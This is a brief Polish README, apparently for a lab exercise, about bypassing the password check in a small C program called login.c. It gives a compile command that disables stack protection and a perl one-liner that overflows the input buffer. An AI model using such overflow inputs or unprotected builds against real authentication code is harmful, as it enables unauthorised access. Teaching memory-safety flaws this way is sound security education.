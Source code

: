 # Złamania hasła logni.c
## Uruchomienie:

$:`gcc -z execstack -fno-stack-protector login.c`  
$: ./a.out perl -e 'print "\x01"x9';  
komenda perl powinna być w pojedynczych ``  
Poniżej jest plik, w krótrym jest zawarta instrukcja.
[Instrukcja](./instrukcja.txt)
